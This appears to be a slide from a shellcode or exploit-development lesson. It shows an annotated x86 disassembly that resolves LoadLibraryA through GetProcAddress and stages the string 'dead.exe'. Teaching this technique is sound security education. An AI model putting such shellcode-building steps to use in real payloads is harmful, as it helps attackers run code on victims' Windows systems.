

Find LoadLibrary
00000055  33C9              xor ecx,ecx              ; ECX = 0
00000057  51                push ecx
00000058  682E657865        push dword 0x6578652e    ; .exe
0000005D  6864656164        push dword 0x64616564    ; dead
00000062  53                push ebx                 ; Kernel32 base address
00000063  52                push edx                 ; GetProcAddress
00000064  51                push ecx                 ; 0
00000065  6861727941        push dword 0x41797261    ; aryA
0000006A  684C696272        push dword 0x7262694c    ; Libr
0000006F  684C6F6164        push dword 0x64616f4c    ; Load
00000074  54                push esp                 ; "LoadLibrary"
00000075  53                push ebx                 ; Kernel32 base address
00000076  FFD2              call edx                 ; GetProcAddress(LL)